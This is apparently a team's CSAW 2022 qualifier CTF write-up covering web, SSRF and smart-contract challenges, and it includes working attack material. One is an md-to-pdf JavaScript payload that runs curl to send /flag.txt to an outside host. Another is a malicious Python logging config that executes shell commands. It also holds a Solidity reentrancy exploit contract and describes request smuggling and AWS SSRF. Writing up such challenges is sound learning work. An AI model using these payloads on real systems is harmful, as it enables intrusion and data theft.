

# CSAW 2K22 Quals

## World wide web


  

  

I tried to find if there is any other `<a>` tags in the page.

.

Using browser devtool and CTRL+F I did 3 times each time I look for the `<a>` and click on it. Also I noticed that I got a very interesting cookie set.


`solChain` well what got my attention is the chain part. If the server is actually tracking the sequence of path I have visited then there must be something. Also, I tried to repeat the process twice and I found out the sequence of words is the same.

Crafting my final script.

```py
import requests

url="http://web.chal.csaw.io:5010/"


session = requests.Session()


with session : 
    next_word='stuff'
    while True:
        response1= session.get(url+next_word)
        print(session.cookies)
        try:
            startingIndex=response1.text.index('href="/')
            endText=response1.text[startingIndex:].index('">')
        except :
            print(response1.text)
            break
        print("next word:",response1.text[7+startingIndex:endText+startingIndex])
        next_word=response1.text[7+startingIndex:endText+startingIndex]
```

  

## My Little website


So as far my enumeration went that's what I found:

- `expressJS` server running, identified with the headers.
- Opens a headless chrome instance to render the pdf.
- Dynamic XSS didn't work, might be beacuse the bot doesn't wait for the JS execution and even forcing it to wait doesn't really work it renders the HTML,CSS and then the PDF.

A wild guess by my teammate `M0ngi` about the markdown parser, the CVE was `CVE-2021-23639` which occurs in the vulnerable version of `md-to-pdf`

So we execute our final payload.

```md
---js
((require("child_process")).execSync("curl https://en7nqjdbzyckx.x.pipedream.net/ -d \"$(cat /flag.txt)\" "))
---
```


## Good Intentions


Reading through the code, I found that the upload is secure.


But going further down the code the function to set the `logger` configuration file is vulnerable to `path traversal`.


Here, I didn't know which evil configuration should I *upload* then set the logger to. I needed to have RCE on the server. Fortunately enough, my teammate `n0s` sent me this link  of an [Evil logger](https%3A%2F%2Fgithub.com%2Fraj3shp%2Fpython-logging.config-exploit%2Fblob%2Fmain%2Fexploit%2Fbad-logger.conf%3Ffbclid%3DIwAR0W2Cdm3GLHqtFbAQjU3iatoSSTnlbj-kuUP_FYX3jYVHTvDvH7LrneBW4&h=AT2QW5JZ9Xo6Qxu0-PtnFRXvizekY-KwhalZdV6aiTe0nGrJKkLDiGvLKFysZp_1QIS5xBW03o98eLDuK-LJYfHx4uSZwRB05MOYG7pu420p1iUPViifuWgRXOQHSLMjihPiJQ).

So the final chain will be as the following:


### Logger code `payload.conf`

```yaml
[loggers]
keys=root,simpleExample

[handlers]
keys=consoleHandler

[formatters]
keys=simpleFormatter

[logger_root]
level=DEBUG
handlers=consoleHandler

[logger_simpleExample]
level=DEBUG
handlers=consoleHandler
qualname=simpleExample
propagate=0

[handler_consoleHandler]
class=__import__('os').system('cat /flag.txt > /app/application/static/images/de5fb214024af96b9f49ace64886c5/payload_ca36a4c20fafe498f263')
level=DEBUG
formatter=simpleFormatter
args=(sys.stdout,)

[formatter_simpleFormatter]
format=%(asctime)s - %(name)s - %(levelname)s - %(message)s
```

I fired up my postman to execute that and here comes the flag !


## Smuggling Mail

  

Going through the code, these are my findings:

- We got a `varnich` cache server.

  

- A `hitch` TLS proxy accepting HTTP/2 requests.


A quick research on the `varnish` cache server and I found the `CVE-2021-36740`. Actually, the cache server which works as the "frontend" here passes the HTTP/2 to the backend which downgrades the request to HTTP/1 which will be handled as two requests. Yes, that's a H2.CL vulnerability also there is a cve that made me try to HTTP Smuggling exploit.


That's perfectly our case, we want to bypass the authentication condition in the `varnish` config.


We can use the `/waitlist` endpoint for the original request but what do we want to do here ?
  

So we want to reach the `/admin/alert` to trigger an RCE but how can we do it ? Some research and with the help of my teammate 'm0ngi' We found the last missing piece [Mailutils cve](./images/smuggling-mail-cve.webp)

> We can `~ OUR_COMMAND`

### Putting it all together


## Lost in Amazon

  

> This challenge was a little bit too blind. What caused confusion is the directory busting part. It's not a natural thing to come to your mind while solving a CTF task.

I was really confused and couldn't find a thing till I got a discord notification.

  

Well, a quick directory busting with `wfuzz`, I found two endpoints.
  

I curled both paths, `/secret` gave me a JWT and `rockyou` a page that has nothing in it. 
  

An intuitive move is to set the jwt token and revisit `/rockyou` right ? It gave me nothing. I tried to set `secret` cookie as the JWT too but nothing ...  also we should note that jwt itself has nothing interesting. I felt really like I hit a dead end.
  

At last, I reached for the admin, I knew that there was something unintuitive to do `also noting the cries of agony in the discord channel because of the task`
  

Oh I see I had to fuzz one path deeper and found `/developer/heaven`
  
  

Now I have an idea why do I need the JWT token. I added a cookie with the name of `secret`.
  

It was really easy now. Going back to the name of the Task and especially the `amazon` part. I knew it was an amazon SSRF vulnerability.
I didn't waste any time.

> I tried tempering with the _magiccall paramater but it gave nothing so I passed.

  

I added the profile to my `aws-cli`.
  

Then I tried to look for any `s3 buckets`
  

My teammate `N0s` pinged me here and told me to try to specify the bucket region as buckets can be region-specific. So I looked for it
  

and finally I got the flag.


## DonateMe

  

A basic reentrancy vulnerability. Here is the evil contract below:

1. Send 0.0001 ether to trigger the reentrancy loop.
2. Stop the loop after the balance gets to 30.
3. Send the token via `getFlag`
   > You can use ethers.utils.formatBytes32String(TOKEN) to get the right format to pass.
4. `yes` and get the flag.

```js
// SPDX-License-Identifier: MIT

pragma solidity >=0.8.7;    

interface VictimContract { 
    function newAccount()  external payable;

    function donateOnce()  external;

    function getBalance() external view returns (uint256 donatorBalance) ;
    function getFlag(bytes32 _token) external ;
}

contract ExploitDonation { 
    address public victimAddress;
    VictimContract victimContract; 

    constructor(address _victimAddress){
            victimAddress=_victimAddress;
            victimContract=VictimContract(victimAddress);
    }

    function startAttack() public payable {
        victimContract.newAccount{value:msg.value}();
        victimContract.donateOnce();

    }

    fallback()external payable {
        uint my_balance= victimContract.getBalance();
        if (my_balance<=20)
            victimContract.donateOnce();

    }

 function getBalance() public view returns (uint256) {
        return victimContract.getBalance();
    }

    function getFlag(bytes32 _token) public {
        victimContract.getFlag(_token);
    }
}
```

## Final words

I want to congratulate the organizers for their huge efforts and these great tasks.
Kudos to all my teammates for their perseverance and hard work during the competition. We successfully made it to the finals by achieving the first place in MENA !! Many words but not enough of them, all the efforts put to get such results, but most importantly `CSAW 2K22 finals here we come`.
